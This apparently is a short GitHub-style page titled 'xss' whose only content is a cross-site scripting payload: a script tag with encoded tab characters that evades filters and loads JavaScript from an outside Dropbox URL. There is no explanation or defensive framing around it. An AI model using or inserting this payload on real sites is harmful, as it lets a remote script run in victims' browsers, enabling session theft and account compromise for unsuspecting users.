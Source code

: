 # xss



```

<script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>















```
